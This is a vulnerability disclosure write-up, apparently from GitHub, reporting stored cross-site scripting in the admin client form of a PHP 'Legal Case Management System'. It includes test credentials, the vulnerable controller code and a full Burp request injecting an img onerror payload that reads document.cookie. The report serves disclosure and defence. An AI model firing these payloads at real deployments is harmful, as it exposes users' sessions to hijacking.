

## Legal Case Management System

## XSS on `/admin/clients`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/clients
```

The parameter `f_name` /`m_name` /`l_name` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# legalcase/app/Http/Controllers/Admin/ClientController.php
8 use App\Model\AdvocateClient;
81 $customcollections = AdvocateClient::when($search, function ($query, $search) {
82            return $query->where('first_name', 'LIKE', "%{$search}%");
83 });
84
85 $totalFiltered = $customcollections->count();
86 $customcollections = $customcollections->offset($start)->limit($limit)->orderBy($order, $dir)->get();
87 $data = [];
88 foreach ($customcollections as $key => $item) {
102 	$row['first_name'] = '<a class="title text-primary" href="' . $show . '">' . $item->full_name . '</a>';
```

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/clients HTTP/1.1
Host: 192.168.150.131
Content-Length: 1040
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/clients/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IlVoZDlHMGhkU1dnWXYrXC9cL0s2M3EyZz09IiwidmFsdWUiOiJhOFwvR0J6bW1IbkJWdUZIbmNTUlgrWU5uMDgyODVESmxXTU1WMDY4SnByZzg4dVlYdWxhQ0NhdUlUTHhWUFwvK3MiLCJtYWMiOiI3ZDE3M2M5NjJkYTYyYzU5NzFlNGIzMWQ0MDBkZTQxZGI4ZjMxNzM1M2I4YjhhNjVkM2M4YTAyNDRjZmM5OTFhIn0%3D; test_session=eyJpdiI6IlBlMFByaEJJc05RVEc3ME1ueXZzM2c9PSIsInZhbHVlIjoiRUR0N01EajFFaUtpZksxWUc1OG5OYmUxMHY4K0Rld09YRFdnNGNxRnpjNmtybm9helwvVklCcytcL1Q2OEpOZkF6IiwibWFjIjoiMjg2ZjM3NmIwNjg4NGIzNmJiOTQ0OWI3OTJjM2IwYmYxMDRhYjQwMzA3YmFhNmZkMjVjYzEyZTM1NjJlNWZjMCJ9
Connection: close

_token=8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU&f_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&m_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&l_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&gender=Male&email=111%40qq.com&mobile=3541620469&alternate_no=1234567890&address=1&country=5&state=170&city_id=6450&reference_name=2&reference_mobile=1132432445&type=single&group-a%5B0%5D%5Bfirstname%5D=&group-a%5B0%5D%5Bmiddlename%5D=&group-a%5B0%5D%5Blastname%5D=&group-a%5B0%5D%5Bmobile_client%5D=&group-a%5B0%5D%5Baddress_client%5D=&group-b%5B0%5D%5Bfirstname%5D=&group-b%5B0%5D%5Bmiddlename%5D=&group-b%5B0%5D%5Blastname%5D=&group-b%5B0%5D%5Bmobile_client%5D=&group-b%5B0%5D%5Baddress_client%5D=&group-b%5B0%5D%5Badvocate_name%5D=&route-exist-check=http%3A%2F%2F192.168.150.131%2Fadmin%2Fcheck_client_email_exits&token-value=8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU
```

### Screenshot


